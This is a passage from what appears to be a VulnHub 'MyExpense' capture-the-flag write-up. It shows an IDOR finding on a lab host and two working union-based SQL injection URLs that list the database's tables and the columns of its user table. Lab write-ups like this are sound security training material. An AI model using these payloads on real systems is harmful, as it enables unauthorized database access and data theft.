 It was assumed Paul Baudouin was not an active user of the chat or admin pages, making XSS impractical. Further enumeration was required.

An IDOR vulnerability was discovered. Accessing a URL like `http://192.168.1.25/site.php?id=2` displayed user information based on the `id` parameter.

![alt text](../assets/images/vulnhub-myexpense-writeup/myexpense31.png)

This parameter was also vulnerable to SQL Injection. Union-based SQLi was used to extract information from the database.

![alt text](../assets/images/vulnhub-myexpense-writeup/myexpense32.png)


List tables:

http://192.168.1.25/site.php?id=2 union select 1, (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()), 3, 4 #

![alt text](../assets/images/vulnhub-myexpense-writeup/myexpense33.png)

List columns in the `user` table:


http://192.168.1.25/site.php?id=2 union select 1, (SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema = database() AND table_name = 'user'), 3, 4 #

![alt text](../assets/images/vulnhub-myexpense-writeup/myexpense34.png)
